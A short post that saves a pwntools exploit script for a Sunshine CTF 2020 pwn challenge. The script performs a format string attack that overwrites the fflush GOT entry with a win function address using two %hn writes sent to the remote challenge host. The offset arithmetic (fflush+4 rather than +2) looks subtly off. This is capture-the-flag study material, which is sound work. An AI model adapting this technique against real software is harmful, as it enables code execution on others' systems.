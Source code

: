 ## Sunshine CTF: speedrun 08 [pwn]

#### Just an exploit script I wanted to save. It showcases a format string attack using two writes to the upper and lower 2 bytes of a target address. Saving this for reference in future exploits.

```python
from pwn import *

#:
#p = process('./chall_11')
#binary = ELF('./chall_11', checksec = False)
#gdb.attach(p.pid, 'break *vuln + 83')
p = remote('chal.2020.sunshinectf.org', 30011)

fflush = 0x08049918
win = 0x80484e6
p.sendline('test')
p.sendline('{}{}%{}i%6$hn%{}i%7$hn'.format(p32(fflush), p32(fflush + 4), 0x84e6-8, 0x0804))
p.interactive()
```